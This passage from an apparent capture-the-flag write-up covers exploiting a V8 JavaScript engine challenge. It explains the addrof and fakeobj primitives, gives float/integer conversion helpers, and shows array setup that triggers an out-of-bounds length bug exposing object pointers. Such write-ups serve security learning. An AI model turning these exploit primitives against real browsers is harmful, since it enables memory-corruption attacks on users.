 ### --[ - Setting up our primitives

We have all the information we really need to start writing some useful
primitives. Two of the common ones for v8 exploitation are `addrof` and `fakeobj`.
`addrof` is used to return the address of some desired object, and `fakeobj`
is used to create a fake object at a desired address, which might further be used
for arbitrary r/w. We won't be creating a `fakeobj` primitive because the
challenge gives us an easy way to do r/w. `addrof` will still be useful.
<br>
<br>

#### --[ - Setup

Here are some helper functions (yoinked from one of Faith's [writeups](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/) (thanks))
used for converting between ints and floats in the exploit:
<br>

```js
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) { // typeof(val) == float
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Watch for little endianness
}

function itof(val) { // typeof(val) == BigInt
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}
```
<br>
First we setup some initial arrays to use and trigger the vulnerability:
<br>

```js

a = [1.1, 2.2, 3.3];
b = [{A:1}, {B:2}, {C:3}];

float_arr = a.slice(0);
obj_arr = b.slice(0);
```
<br>

In this case `float_arr.length` will be 5, allowing us to access it's map
and elements pointers. The map pointer won't be used in this exploit, but
modifying it (to say, the same as an object map) would also allow for some
fun exploits. [Here](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/)
is a cool ctf writeup involving playing around with different maps.
